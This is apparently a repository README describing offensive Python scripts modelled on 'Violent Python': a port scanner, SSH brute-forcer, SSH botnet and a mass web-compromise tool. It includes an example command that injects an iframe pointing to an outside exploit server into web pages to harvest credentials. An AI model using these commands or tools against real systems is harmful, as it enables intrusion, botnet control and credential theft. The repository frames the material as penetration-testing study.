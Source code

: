 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2



# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it

## L) massCompromise.py
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location

taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt
